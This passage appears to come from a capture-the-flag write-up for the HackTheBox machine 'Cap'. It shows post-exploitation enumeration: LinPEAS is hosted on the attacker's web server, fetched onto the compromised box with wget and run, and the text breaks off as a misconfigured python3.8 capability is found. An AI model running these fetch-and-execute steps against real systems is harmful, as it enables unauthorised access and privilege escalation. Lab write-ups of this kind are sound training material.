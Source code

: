 ## LinPEAS Enumeration

Time for some enumeration, let's get the latest version of LinPEAS from [here](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS):

```text
┌──(root💀kali)-[~/htb/cap]
└─# wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh
--2021-09-25 23:10:49--  https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.109.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 473371 (462K) [text/plain]
Saving to: ‘linpeas.sh’
linpeas.sh              100%[=========================================================>] 462.28K  --.-KB/s    in 0.07s   
2021-09-25 23:10:50 (6.02 MB/s) - ‘linpeas.sh’ saved [473371/473371]
```

Start a web server so we call pull it across:

```text
┌──(root💀kali)-[~/htb/cap]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Switch back to box and grab it:

```text
nathan@cap:~$ wget http://10.10.14.22/linpeas.sh
--2021-09-25 22:11:33--  http://10.10.14.22/linpeas.sh
Connecting to 10.10.14.22:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 473371 (462K) [text/x-sh]
Saving to: ‘linpeas.sh’
linpeas.sh           100%[===================>] 462.28K  2.20MB/s    in 0.2s    
2021-09-25 22:11:33 (2.20 MB/s) - ‘linpeas.sh’ saved [473371/473371]
```

Make it executable, run and redirect output to a file:

```text
nathan@cap:~$ chmod +x linpeas.sh 
nathan@cap:~$ ./linpeas.sh > linpeas.txt
. . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . 
```

## Exploiting Capabilities 

As always the output is long so we have to take time to look through it properly. When I get to the capabilities section I see the python3.8 binary is misconfigured:

